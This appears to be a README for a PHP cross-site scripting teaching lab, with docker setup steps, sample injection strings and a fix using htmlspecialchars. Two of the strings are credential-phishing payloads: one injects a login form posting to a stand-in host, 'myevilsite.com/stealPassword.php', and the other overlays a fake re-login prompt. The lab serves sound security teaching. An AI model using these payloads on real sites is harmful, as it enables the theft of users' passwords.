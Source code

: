 # Cross-site Scripting Example - PHP

## Building the example

* Clone this git repository
* Navigate to Lab4 and run <code>docker-compose build && docker-compose up</code> Note this may take a couple minutes the first time. It will be faster on subsequent executions since docker will cache the packages that the php container uses.
* Open a browser and navigate to your virtual server

## Exploit strings to try

* &lt;h1&gt;Hello&lt;/h1&gt;

* &lt;div id='stealPassword'&gt;Please Login:&lt;form name='input' action='http://myevilsite.com/stealPassword.php' method='post'&gt;Username: &lt;input type='text' name='username'&gt;&lt;br&gt;Password: &lt;input type='password' name='password'&gt;&lt;input type='submit' value='Login'&gt;&lt;/form&gt;&lt;/div&gt;

* &lt;/pre&gt;&lt;div id="overlay" style="position:fixed;top:0;left:0;bottom:0;right:0;height: 100%;width: 100%;margin: 0;padding: 0;background: %23000000;opacity: 1;filter: alpha(opacity=30);-moz-opacity: 1;z-index: 101;"&gt;&lt;h1&gt;Sorry, we got your credentials wrong. Can you enter them again?&lt;/h1&gt;&lt;form method="get" action=""&gt;&lt;input type="text" name="username"&gt;&lt;br&gt;&lt;input type="password" name="password"&gt;&lt;br&gt;&lt;input type="submit"&gt;&lt;/div&gt;

## Fixing the vulnerabilities

* Locate the spots in the code where the malicious strings are being <strong>printed</strong> and surround the string with <code>htmlspecialchars($YOUR_STRING_VARIABLE_HERE, ENT_QUOTES, 'UTF-8');</code>
